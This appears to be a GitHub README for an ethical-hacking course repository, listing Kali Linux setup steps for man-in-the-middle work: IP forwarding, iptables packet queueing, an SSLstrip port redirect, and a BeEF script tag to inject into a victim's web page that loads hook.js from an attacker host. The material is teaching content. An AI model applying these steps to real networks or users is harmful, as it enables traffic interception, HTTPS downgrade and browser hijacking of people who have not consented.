 # EthicalHackingCourse
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file,
BeEF framework for Kali Linux is Required.

`sudo apt-get install beef-xss`

## Guidelines

### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:

`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,

where the default `<number>` is `0`.

For local testing, use both `OUTPUT` and `INPUT` chain.

To enable a basic HTTP server, type:

`sudo service apache2 start`

### Python
It seems that *netfilterqueue* does not work on Python 3.x.

### BeEF
The code we want to inject into our victim is:

`<script src="http://<IP>:3000/hook.js"></script`,

where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:

`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10 000, which is the port the SSLstrip tool uses.

